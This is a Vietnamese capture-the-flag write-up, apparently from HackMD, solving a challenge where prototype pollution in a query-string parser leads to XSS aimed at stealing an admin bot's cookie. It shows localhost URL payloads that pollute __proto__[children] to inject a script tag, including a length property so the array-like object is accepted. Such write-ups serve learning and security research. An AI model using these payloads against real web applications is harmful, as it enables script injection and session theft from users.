 AUKE CHỮA BÀI
Đây là chủ đề về prototype pollution + xss => lấy cookie(đúng như dự đoạn của mình)
Ngay ở trong code của admin bot đã có phần `Parse` và đưa vào bên trong 1 `query`
![image](https://hackmd.io/_uploads/SJrhS6Oegx.png)
Giá trị trả về là 1 đối tượng với các thuộc tính

```php!
{
  a: "1",
  b: "2",
  c: { d: "3" }
}
```

luận lí sẽ như sau
![image](https://hackmd.io/_uploads/rk0N6Tugge.png)
Như ta đã thấy khi mà `obj.childern` tồn tại . Nó sẽ thay thế hết tất cả thuộc tính mà mình đưa vào => đây sẽ là `prototype pollution`
thực hành luôn với payload

```php!
http://localhost:8000/index
  ?__proto__[children][0][tag]=script
  &__proto__[children][0][attributes][src]=a
```

sau khi đã query đến thì ta được sự khác biệt như sau
![image](https://hackmd.io/_uploads/ByVbQC_egl.png)
Ta thấy đã xuất hiện `children`
Vậy lợi dụng nó để thực thi javascript trong và lấy được **cookie**
Tuy nhiên mình nhận ra 1 vấn đề -> thể script trong payload đã biến mất ?????? 😪
![image](https://hackmd.io/_uploads/Skh54Rulgx.png)
Trong JavaScript `array-like` cần có thuộc tính `length` thì mới hợp lệ

```php!
{
  "__proto__": {
    "children": {
      "0": {
        "tag": "script",
        "attributes": {
          "src": "a"
        }
      },
      "length": 1
    }
  }
}
```

auke thử lại nào

```php!
http://localhost:8000/index
  ?__proto__[children][0][tag]=script
  &__proto__[children][0][attributes][src]=a
  &__proto__[children][length]=1
```

